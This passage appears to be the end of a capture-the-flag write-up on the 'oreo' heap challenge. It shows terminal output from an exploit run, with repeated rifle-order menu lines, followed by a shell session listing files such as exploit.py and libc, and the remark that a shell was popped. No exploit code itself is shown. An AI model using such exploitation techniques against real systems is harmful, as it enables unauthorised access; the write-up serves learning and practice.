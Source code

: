 ```
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Okay order submitted!
Action: Rifle name: Rifle description: Action: Enter any notice you'd like to submit with your order: Action: Okay order submitted!
$
$ w
 21:49:25 up  2:37,  1 user,  load average: 0.30, 0.11, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu tty7     :0               19:12    2:37m  1:39   0.20s /sbin/upstart --user
$ ls
core  exploit.py  libc-2.23.so    libc-2.24.so  oreo  readme.md  try.py
```

Just like that, we popped a shell!